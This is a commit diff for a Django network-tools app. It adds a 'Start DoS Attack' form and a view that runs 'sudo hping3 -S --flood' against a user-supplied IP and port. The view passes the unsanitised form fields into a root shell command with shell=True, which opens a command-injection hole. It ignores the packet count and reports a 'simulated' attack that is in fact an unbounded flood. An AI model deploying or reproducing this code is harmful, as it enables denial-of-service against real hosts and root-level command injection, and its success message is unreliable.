

Before and after one commit to KunalBamane57/PR_main_code, a Django app: page /attacks/ in a window 1280 px wide. Shown: the top 353 px of the page. Run offline with Django 5.2, Linux system fonts and the light colour scheme.

Commit message:
Dos Attack Implementation

```diff
--- a/network_devices/device_finder/templates/device_finder/attacks.html
+++ b/network_devices/device_finder/templates/device_finder/attacks.html
@@ -74,6 +74,19 @@
             <input type="text" name="server_ip" placeholder="Server IP" required>
             <button class="attack-button" type="submit">Simulate Inviteflood Attack</button>
         </form>
+        <form method="POST" action="{% url 'dos_attack' %}">
+            {% csrf_token %}
+            <label for="target_ip">Target IP:</label>
+            <input type="text" id="target_ip" name="target_ip" required>
+            <br>
+            <label for="target_port">Target Port:</label>
+            <input type="text" id="target_port" name="target_port" required>
+            <br>
+            <label for="packet_count">Packet Count:</label>
+            <input type="text" id="packet_count" name="packet_count" value="1000">
+            <br>
+            <button type="submit">Start DoS Attack</button>
+        </form>
         <form>
             <a href="{% url 'next_page' %}">
                 <button type="button" class="nextbtn">Next page</button>
--- a/network_devices/device_finder/views.py
+++ b/network_devices/device_finder/views.py
@@ -82,3 +82,26 @@ def inviteflood_attack(request):
         return render(request, 'attacks/index.html', {'message': message})
 
     return render(request, 'attacks/index.html', {'message': 'Invalid request method.'})
+
+def dos_attack(request):
+    if request.method == "POST":
+        target_ip = request.POST.get('target_ip')
+        target_port = request.POST.get('target_port')
+        packet_count = request.POST.get('packet_count', '1000')
+
+        try:
+            # Command to perform DoS attack using hping3
+            # Install hping3 for this attack
+            command = f"sudo hping3 -S --flood -p {target_port} {target_ip}"
+            result = subprocess.run(command, shell=True, capture_output=True, text=True)
+
+            if result.returncode == 0:
+                message = f'DoS attack simulated successfully on {target_ip}:{target_port} with {packet_count} packets.'
+            else:
+                message = f'Error: {result.stderr}'
+        except Exception as e:
+            message = f'Error running DoS attack: {str(e)}'
+
+        return render(request, 'attacks/index.html', {'message': message})
+
+    return render(request, 'attacks/index.html', {'message': 'Invalid request method.'})
```
